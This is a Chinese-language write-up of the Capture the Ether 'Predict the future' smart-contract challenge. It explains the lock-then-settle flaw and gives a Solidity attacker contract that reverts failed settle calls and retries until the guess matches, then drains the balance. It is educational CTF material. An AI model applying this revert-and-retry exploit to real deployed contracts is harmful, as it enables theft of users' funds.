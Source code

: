 # Predict the future

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/predict-the-future/)

原题目要求 PredictTheFutureChallenge 合约的 ether 余额为 0。参与过程分成两步，第一步时锁定答案，第二步揭示答案。如果锁定的答案等于当前揭示答案是用 blockhash 以及 timestamp 通过 hash 生成的数，即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Predict_the_future -vvv
```

## 功能简述

在 PredictTheFutureChallenge 合约中，锁定猜测 lockInGuess 和揭示答案 settle 分成了两步，并且要求 settle 的调用需要在 lockInGuess 两个区块之后。settle 如果执行成功，guesser 会被置为 address(0)，这样就无法再次调用 settle。

解决思路是，我们确实需要老老实实调用 lockInGuess 并转入一个 ether。但是在调用 settle 的时候，如果我们的 answer 不正确，我们需要能够 revert 这个 transaction，这样 guesser 不会被置为 address(0)，然后我们可以再次调用 settle，这样一直执行下去直到 answer 等于 guess。而且因为 answer 的空间是 0 - 10，每次尝试有 1/10 的成功概率，是具有可能性的。

Attacker 合约中，lockInGuess，我们先调用 PredictTheFutureChallenge 的 lockInGuess，设置一个空间内的数，比如 6。然后过了两个块后，我们可以调用 Attacker 的 attack，如果挑战失败，revert 整个 transaction。然后再次尝试，直到成功后将所有的余额发送到 balance。

```solidity
    function lockInGuess(uint8 n) external payable {
        if (msg.sender != owner) revert NotOwner();
        if (address(this).balance < 1 ether) revert ValueErr();
        
        challenge.lockInGuess{value: 1 ether}(n);
    }
    
    function attack() external {
        if (msg.sender != owner) revert NotOwner();

        challenge.settle();
    
        // if we guessed wrong, revert
        if (!challenge.isComplete()) revert GuessErr();
        // return all of it to EOA
        payable(tx.origin).transfer(address(this).balance);
    }
```
